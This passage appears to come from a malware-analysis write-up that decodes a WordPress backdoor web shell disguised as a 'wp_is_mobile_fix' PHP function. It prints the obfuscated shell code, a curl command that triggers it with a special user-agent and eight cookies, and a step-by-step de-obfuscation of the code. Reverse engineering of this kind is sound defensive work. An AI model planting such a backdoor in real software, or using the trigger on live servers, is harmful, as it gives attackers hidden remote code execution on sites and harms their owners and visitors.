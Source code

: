 ## Backdoor Web Shell
What did that dropper install? Decoding the base64 string reveals the following PHP code.
```php
01  function wp_is_mobile_fix() {
02      $is_wp_mobile = ($_SERVER['HTTP_USER_AGENT'] == 'wp_is_mobile');
03      $g = $_COOKIE;
04
05    (count($g) == 8 && $is_wp_mobile) ?
06    (($qr = $g[33].$g[32]) && ($iv = $qr($g[78].$g[18])) &&
07    ($_iv = $qr($g[12].$g[17])) && ($_iv = @$iv($g[10], $_iv($qr($g[53])))) && 
08    @$_iv()) : $g;
09
10    return $is_wp_mobile;
11  }
12
13  wp_is_mobile_fix();
```

A quick glance tells us that using the backdoor will require a user agent string of `wp_is_mobile` and a cookie with eight values. Our final `curl` command will look something like this:
```console
$ curl -v -A "wp_is_mobile" --cookie "33=; 32=; 78=; 18=; 12=; 17=; 10=; 53=" http://localhost/wp-includes/vars.php
```
Now comes the challenging part: de-obfuscating that mess on lines five through eight and filling in the cookie values.

## Reverse Engineering the Web Shell

That question mark is a [ternary operator](https://www.php.net/manual/en/language.operators.comparison.php); which is essentially a shortened if-else statement. If we re-examine and rewrite it as pseudo-code it makes things a little easier to understand:
> IF there are eight cookie values AND the user agent is an expected value
> THEN perform a series of statements and return their value
> ELSE return the cookie array

Since the result of this statement isn't being stored or used, whatever the return value is doesn't matter; and since the "else" just returns the cookie array, we can completely ignore that part of the statement. That leaves us with the comparison and the true condition. As mentioned before, to execute the series of statements we need eight cookie values and a user agent string of `wp_is_mobile`. That will cause the chain of statements in the true condition to execute. Let's examine those now.

```php
(($qr = $g[33].$g[32]) && ($iv = $qr($g[78].$g[18])) && ($_iv = $qr($g[12].$g[17])) && ($_iv = @$iv($g[10], $_iv($qr($g[53])))) && @$_iv())
```

As you can see, there are several statements chained together with double ampersands. This is a [short-circuit evaluation](https://en.wikipedia.org/wiki/Short-circuit_evaluation), which means each statement will execute in sequence until one fails. This is an easy way to perform multiple actions in a single statement. To improve readability, we'll rewrite these as separate statements.

```php
$qr = $g[33].$g[32];
$iv = $qr($g[78].$g[18]);
$_iv = $qr($g[12].$g[17]);
$_iv = @$iv($g[10], $_iv($qr($g[53])));
@$_iv();
```
